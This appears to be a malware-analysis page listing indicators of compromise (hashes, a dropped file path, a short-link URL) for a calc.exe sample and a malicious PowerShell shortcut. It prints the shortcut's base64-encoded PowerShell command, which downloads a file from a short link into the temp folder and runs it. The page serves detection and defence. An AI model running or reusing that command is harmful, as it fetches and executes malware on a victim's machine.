


# Indicators of Compromise

## What is Indicators of Compromise ( IOCs )?

An Indicator of Compromise (IOC) is evidence that suggests a network or endpoint has been breached. It is a sign that an attack, such as malware infection, credential theft, or data exfiltration, has already occurred.

Let's list the Indicators of Compromise for both of the samples that we have seen so far.

## IOCs for calc.exe

### Signatures related to the given malware file

| Key      | Value                                                            |
| -------- | ---------------------------------------------------------------- |
| Filename | `calc.exe`                                                       |
| MD5      | 2f9fdad776d8626f2ce8625211831e91                                 |
| SHA256   | 9b66a8ea0f1c64965b06e7a45afbe56f2d4e6d5ef65f32446defccbebe730813 |

## IOCs for Windows Powershell.lnk

### Signatures related to the given malware file

| Key      | Value                                                            |
| -------- | ---------------------------------------------------------------- |
| Filename | `Windows Powershell.lnk`                                         |
| MD5      | 02e1f1ea7dc301147433623d31e5a294                                 |
| SHA256   | de6d56ae01166232f2cb403c86d2ddf59d7654510100971fcd0fe59a3a8e9944 |

### Signatures related to the dropped file

| Key       | Value                                                            |
| --------- | ---------------------------------------------------------------- |
| Filename  | `.cmd`                                                           |
| File Path | `%TEMP%\.cmd`                                                      |
| MD5       | a07fcb39b340ad8dea993a5f5c4d9064                                 |
| SHA256    | EEB86BDD38DC4FA93046F3CC0E443018518B81828D34E5D1E75F3BD9AAB0F8A7 |

### HTTP Requests

- `http://is.gd/jwr7JD`

### Suspicious Strings

Remember the first powershell command that is executed with a base64 encoded string as the argument which contains the URL to the staged file, this base64 encoded string can be found in the properties of the `Windows Powershell.lnk` file as shown in the following image.

The full target value that is marked in the above image is as follows: `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -e aQB3AHIAIABpAHMALgBnAGQALwBqAHcAcgA3AEoARAAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=`

This is why when we double click on the shortcut file, that powershell command is executed. This string can also be found by executing the strings command on this file as shown in the following image.

This base64 encoded string is unique to this malware and can be used as an IOC.

- `aQB3AHIAIABpAHMALgBnAGQALwBqAHcAcgA3AEoARAAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=`
